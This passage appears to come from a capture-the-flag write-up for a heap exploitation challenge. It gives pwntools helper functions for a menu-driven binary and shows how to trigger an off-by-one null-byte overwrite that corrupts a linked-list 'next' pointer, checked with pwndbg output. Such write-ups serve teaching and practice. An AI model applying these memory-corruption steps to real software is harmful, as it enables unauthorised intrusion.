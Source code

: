 ```python
def add(age, name):
   io.sendlineafter(b": ", b"1")
   io.sendlineafter(b"age: ", str(age).encode())
   io.sendlineafter(b"name: ", name)

def view(idx, choice):
   io.sendlineafter(b": ", b"2")
   io.sendlineafter(b"person: ", str(idx).encode())
   io.sendlineafter(b"choice: ", str(choice).encode())
   io.recvuntil(b" is ")
   return io.recvline().strip()

def update(idx, choice, data):
   io.sendlineafter(b": ", b"3")
   io.sendlineafter(b"person: ", str(idx).encode())
   io.sendlineafter(b"choice: ", str(choice).encode())
   io.sendlineafter(b": ", data)
```


We can trigger the off-by-one by allocating two chunks and then and performing an update that overwrites the `next` pointer’s last byte with a null.

```python
add(12, b"A"*8)
add(12, b"A"*8)

update(0, 2, b"B"*0x18)
```

Running under `GDB NOASLR` and inspecting with `vis`:

```
pwndbg> vis 3 0x4d2c80
```

![](https://github.com/user-attachments/assets/42b5f88c-c876-483f-bf2c-8b6c1caa2868)

The `next` pointer now reads `0x4d2c00` instead of `0x4d2cc0`. This confirms the null-byte overwrite. However, that address isn’t useful to us yet.

To land the truncated pointer in a controllable region, we allocate more chunks:
```python
for i in range(10):
   add(12, b"A"*8)

update(0, 2, b"B"*0x18)
```

After inspection, we see that the corrupted `next` pointer of the last `Person` struct becomes:

```
root ──► [0x4d2e60] Person (last)
          ...
          next ──► 0x4d2e00   <-- corrupted by null-byte overwrite
```
